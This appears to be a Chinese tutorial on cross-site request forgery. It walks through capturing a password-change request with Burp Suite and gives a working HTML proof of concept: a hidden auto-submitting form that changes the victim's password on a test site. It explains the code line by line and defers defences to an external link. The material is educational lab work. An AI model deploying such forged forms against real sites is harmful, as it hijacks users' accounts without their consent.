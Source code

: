 # CSRF攻击

[CSRF攻击参考链接](https://www.cnblogs.com/liuhuan086/p/14752017.html)

跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：**简单的身份验证只能保证请求是发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。



## 示例

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823222326.png)

登录之后，打开burpsuite并抓包，点击修改密码查看抓包的内容。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823225636.png)

然后使用burpsuite来构造PoC，emmm，需要专业版才能使用`构造CSRF PoC`的功能。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823224231.png)

那就通过其他方式手动生成PoC吧。

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
      <input type="hidden" name="password" value="a123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

将上面的内容保存成`.html`文件，然后通过浏览器打开，查看页面只有一个`Submit request`按钮。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823230424.png)

点击按钮再查看结果，发现提示修改成功。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823230752.png)

为什么该HTML文件就能执行成功呢？我们一条一条的查看它的代码

```
  <script>history.pushState('', '', '/')</script>
```

> h5中提供了不修改页面内容只修改地址栏的api，pushState(添加浏览历史)
>
> pushState方法接受三个参数，依次为：
>
> state：一个与指定网址相关的状态对象，popstate事件触发时，该对象会传入回调函数。如果不需要这个对象，此处可以填null。可用它来传一些数据
>
> title：新页面的标题，但是所有浏览器目前都忽略这个值，因此这里可以填null。
>
> url：新的网址，必须与当前页面处在同一个域。浏览器的地址栏将显示这个网址。

再接着看`form`表单，这里就是往目标网站发送表单数据。

```
    <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
```

继续看下面的代码，是一个`input`标签，最关键的地方在于，这里定义了`type=hidden`，也就是说这个`input`输入框对于用户来说是隐藏的，看不见的，当用户点击提交之后，就会在不知情的情况下修改密码。

```
      <input type="hidden" name="password" value="a123456" />
```

如果这里构造的是一个其他操作手段，比如银行转账，比如自动转发消息给列表中所有的好友，好友收到消息后再次转发，这就是之前发生过的[百度CSRF蠕虫攻击事件](https://blog.csdn.net/weixin_34409741/article/details/85166567)。



## 防御

防御手段请参考本文开头的参考链接。
